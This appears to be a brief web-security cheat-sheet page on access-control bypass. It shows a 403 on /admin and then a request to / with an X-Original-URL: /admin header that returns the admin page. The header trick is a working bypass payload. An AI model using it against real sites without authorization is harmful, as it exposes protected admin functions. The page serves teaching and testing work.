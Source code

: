 # Access control

## Summary 
- [Access control](#access-control)
  - [Summary](#summary)
  - [Access control](#access-control-1)
  - [References](#references)

## Access control

:fire: **Example :**

***Request***
```bash
GET /admin HTTP/1.1
Host: website.com
```
***Response***
```bash
HTTP/1.1 403 Forbidden
...

"Access denied"
```
***Modified Request***

```bash
GET / HTTP/1.1
Host: website.com
X-Original-URL: /admin
```
***Response***
```bash
HTTP/1.1 200 OK
...

<!DOCTYPE html>
<html>
<head></head>
<body>"Admin Secrets"</body>
</html>
```

## References

 * [Portswigger](https://portswigger.net/web-security/access-control)